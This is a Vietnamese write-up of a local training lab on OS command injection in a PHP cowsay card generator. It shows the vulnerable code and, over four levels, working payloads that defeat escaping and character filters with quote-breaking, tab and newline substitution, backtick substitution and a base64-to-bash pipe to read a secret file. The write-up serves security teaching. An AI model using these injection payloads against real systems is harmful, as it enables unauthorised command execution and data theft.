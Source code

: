 # Write-up 4IN1_BIZCARD_GENERATOR
Đây là write up của bài lab tiếp theo về chủ đề OS Command Injection của Cyberjutsu. Mọi người làm bài lab bằng cách dùng lệnh `docker-compose up --build` rồi truy cập vào localhost:5555 nhé.

Trước hết, chúng ta sẽ nói sơ qua về cách web này hoạt động

Chúng ta cần ba tham số đó là level, type, và username. Tham số username sẽ được xử lí thông qua hàm `validate_username` tùy vào level. Cuối cùng, web sẽ xử lí các lệnh `cowsay` khác nhau theo `type` mà ta chọn.
```php
switch($type){
    case 'eyes':
        $cowsay = <<<EOF
        echo 'Hello $username' | cowsay -f eyes -n 
        EOF;
        break;
    case 'turtle':
        $cowsay = <<<EOF
        echo 'Hello $username' | cowsay -f turtle -n 
        EOF;
        break;
    case 'dragon':
        $cowsay = <<<EOF
        echo 'Hello $username' | cowsay -f dragon -n 
        EOF;
        break;   
    case 'figlet':
        $cowsay = <<<EOF
        echo 'Hello $username' | cowsay -n ; figlet "Hello $username"
        EOF;
        break;
    case 'toilet':
        $cowsay = <<<EOF
        echo 'Hello $username' | cowsay -n ; toilet 'Hello $username'
        EOF;
        break;  
    case 'inception':
        $cowsay = <<<EOF
        echo 'Hello $username' | cowsay -n | cowthink -n
        EOF;
        break; 
    case 'tenet':
        $cowsay = <<<EOF
        echo 'Hello $username' | cowsay -n | cowthink -n | cowsay -n 
        EOF;
        break;              
    case 'random':
    default:
        $cowsay = <<<EOF
        fortune | cowsay -n | cowthink -n
        EOF;
}
```
Nhìn vào đoạn code trên, ta có thể nhận ra rằng web này có khả năng bị lỗ hổng OS Command Injection (chúng ta chỉ cần tìm cách thoát ra khỏi các cặp nháy là được). Tuy vậy, có khai thác được hay không thì cũng phụ thuộc vào cách tham số `username` được xử lí như thế nào.
## **Level 1**
```php
$input = addslashes($input);
```
Ở đây, biến input chỉ được xử lí qua hàm `addslashes`. Hàm này sẽ tự động thêm dấu `\` vào trước các kí tự cần escaped gồm có `\`, `'` và `"` (Nguồn: [addslashes](https://php.net/addslashes)). Tuy vậy, điều này cũng vô nghĩa do các kí tự ở giữa hai giữa dấu nháy đơn trong linux shell đều bị "vô hiệu hóa" tức là chỉ được xem như là kí tự bình thường kể cả dấu `\`. Do đó, chúng ta chỉ cần nhập ``';command #`` là ổn (nhớ là đừng chọn type random)

![test](./image/level1/1.png)

-   `';ls / #`

![ls](./image/level1/2.png)

-   `';cat /secret_file #`

![payload](./image/level1/3.png)

## **2. Level 2**
```php
$input = substr($input,0,10);
$input = addslashes($input);
```
Ở level này, ta chỉ được sử dụng tối đa 10 kí tự. Do mình đã biết flag sẽ nằm ở thư mục `/`, nên payload của level này sẽ là: `';cat /* #`

![payload](./image/level2/1.png)
## **3. Level 3**
```php
$input = preg_replace("/[\x{20}-\x{29}\x{2f}]/","",$input);
$input = addslashes($input);
```
Ở level này, chúng ta không được sử dụng các kí tự quan trọng như là dấu cách, `"`,`'`, `#`, `/`,... (Nguồn: [asciitable.com](https://www.asciitable.com/)) bởi vì các kí tự đó sẽ bị xóa đi. Như vậy làm sao để vượt qua được rào cản này đây?

Nhìn lại code một lần nữa, ta để ý thấy type figlet có cách xử lí hơi khác là sử dụng dấu `"` trong lệnh `figlet`. 
```php
case 'figlet':
    $cowsay = <<<EOF
    echo 'Hello $username' | cowsay -n ; figlet "Hello $username"
    EOF;
```
Dấu `"` khác dấu `'` ở chỗ là các kí tự đặc biệt ở giữa cặp `"` vẫn giữ lại các chức năng vốn có của nó. Vì vậy, ta vẫn có thể thực hiện lệnh lồng trong lệnh khác bằng cặp `` ` ``. Như vậy, chúng ta không cần đến dấu `'`

![ls](./image/level3/1.png)

Nhưng chúng ta vẫn còn dấu cách và dấu `/`. Trong linux shell, dấu cách có thể thay thế bằng dấu tab (ở vị trí 09 trong bảng ascii). Với dấu `/`, chúng ta có thể xử lí bằng cách di chuyển ngược về thư mục `/` rồi `cat secret_file` ra (chúng ta vẫn dùng được dấu `;` để thực thi nhiều câu lệnh cùng một lúc).

**Payload:** gán tham số username = `` `cd%09..;cd%09..;cd%09..;cat%09secret_file` `` và type = figlet. Kết quả như hình dưới:

![payload](./image/level3/2.png)

## **4. Level 4**
```php
$input = preg_replace("/[\x{20}-\x{29}\x{2f}]/","",$input);
$input = preg_replace("/[\x{3b}-\x{40}]/","",$input);
$input = addslashes($input);
```
Ở Level này có thêm các kí tự không được phép nhập vào, đáng chú ý là dấu `;`. Tuy vậy, ngoài `;`, `|`, `&`, chúng ta vẫn có thể phân cách các lệnh bằng dấu xuống dòng có vị trí trong bảng ascii là 0A (tương tự như lúc chúng ta Enter để thực hiện lệnh)
**Payload:** gán tham số username = `` `cd%09..%0acd%09..%0acd%09..%0acat%09secret_file` `` và type = figlet. Kết quả như hình dưới:

![payload](./image/level4/1.png)

## **Bonus**
Ta còn có thể vượt qua các filter trên bằng cách mã hóa câu lệnh mình muốn và dùng lệnh `base64 -d` kết hợp với `bash` để thực thi câu lệnh, cụ thể là:
```zsh
echo 'câu lệnh đã được mã hóa'|base64 -d|bash
```
Do đó, payload ở đây sẽ là: gán tham số username = `` `echo%09Y2F0IC8q|base64%09-d|bash` ``

Note: `cat \*` khi mã hóa base64 sẽ thành Y2F0IC8q

![bonus](./image/bonus.png)
